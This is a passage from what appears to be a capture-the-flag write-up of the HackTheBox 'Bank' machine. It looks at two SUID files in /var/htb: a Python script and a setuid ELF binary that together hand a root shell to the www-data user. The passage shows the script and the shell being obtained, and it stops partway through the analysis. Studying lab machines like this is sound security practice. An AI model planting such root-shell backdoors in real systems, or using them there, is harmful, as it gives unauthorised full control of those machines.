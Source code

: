 
### emergency

Interestingly enough, there’s more than just this one SUID file in `/var/htb`:

    
    
    root@bank:/var/htb# find . -type f 
    ./emergency
    ./bin/emergency
    

The top `emergency` is a Python script:

    
    
    #!/usr/bin/python
    import os, sys
    
    def close():
            print "Bye"
            sys.exit()
    
    def getroot():
            try:
                    print "Popping up root shell..";
                    os.system("/var/htb/bin/emergency")
                    close()
            except:
                    sys.exit()
    
    q1 = raw_input("[!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: ");
    
    if q1 == "y" or q1 == "yes":
            getroot()
    else:
            close()
    

The second is an ELF file:

    
    
    root@bank:/var/htb# file bin/emergency 
    bin/emergency: setuid ELF 32-bit LSB  shared object, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=1fff1896e5f8db5be4db7b7ebab6ee176129b399, stripped
    

The Python script will run, and return a shell when I enter `y`:

    
    
    www-data@bank:/var/htb$ ./emergency 
    [!] Do you want to get a root shell? (THIS SCRIPT IS FOR EMERGENCY ONLY) [y/n]: y
    Popping up root shell..
    #
    

I was thinking I’d pull the binary back and reverse it a bit, but first I
decided to check if it was known. I got the MD5 hash:

    